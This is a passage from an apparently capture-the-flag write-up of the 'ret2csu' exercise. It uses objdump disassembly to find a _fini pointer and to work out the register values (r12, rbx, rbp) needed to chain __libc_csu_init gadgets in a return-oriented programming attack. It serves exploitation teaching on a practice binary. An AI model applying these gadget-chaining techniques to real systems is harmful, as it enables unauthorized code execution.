```
$ objdump -M intel -D ./ret2csu
...
  600e47:       00 [b4 06 40 00 00 00    add    BYTE PTR [rsi+rax*1+0x40],dh
  600e4e:       00 00]                   add    BYTE PTR [rax],al
...
```

There it is, at `0x600e48`: `b4 06 40 00 00 00 00 00`. If we de-little-endian this, we get the following value: `0x4006b4`.

Let's look at what `0x4006b4` points to:

```
$ objdump -M intel -D ./ret2csu
...
00000000004006b4 <_fini>:
  4006b4:       48 83 ec 08             sub    rsp,0x8
  4006b8:       48 83 c4 08             add    rsp,0x8
  4006bc:       c3                      ret
...
```
**Jackpot!** Since the `_fini()` function pushes and pops a value before returning to the caller function, it's a suitable candidate for us to call when the instruction pointer rolls over to `call QWORD PTR [r12+rbx*8]`. Hence, we know the value of `r12+rbx*8` must be `0x600e48`. For simplicity, we can set `r12` to `0x600e48` while `rbx` can be set to `0x0`.

After the `call` instruction, `__libc_csu_init()` does this:

```
...
   0x000000000040068d <+77>:    add    rbx,0x1
   0x0000000000400691 <+81>:    cmp    rbp,rbx
   0x0000000000400694 <+84>:    jne    0x400680 <__libc_csu_init+64>
...
```

In a nutshell, we have to make sure that `rbx+1 == rbp` to avoid `__libc_csu_init()` from jumping to `0x400680`. Thus `rbp` should be `0x1` since we decided to set `rbx` to `0x0` previously.

Once we have made it past that hurdle, we come across 7 pops before `__libc_csu_init()` returns. Remember, the `add rsp, 0x8` instruction is like popping a 64-bit integer from the stack (since the stack grows downwards), just that the value is not saved to any register.

```
...
   0x0000000000400696 <+86>:    add    rsp,0x8
   0x000000000040069a <+90>:    pop    rbx
   0x000000000040069b <+91>:    pop    rbp
   0x000000000040069c <+92>:    pop    r12
   0x000000000040069e <+94>:    pop    r13
   0x00000000004006a0 <+96>:    pop    r14
   0x00000000004006a2 <+98>:    pop    r15
   0x00000000004006a4 <+100>:   ret
...
```
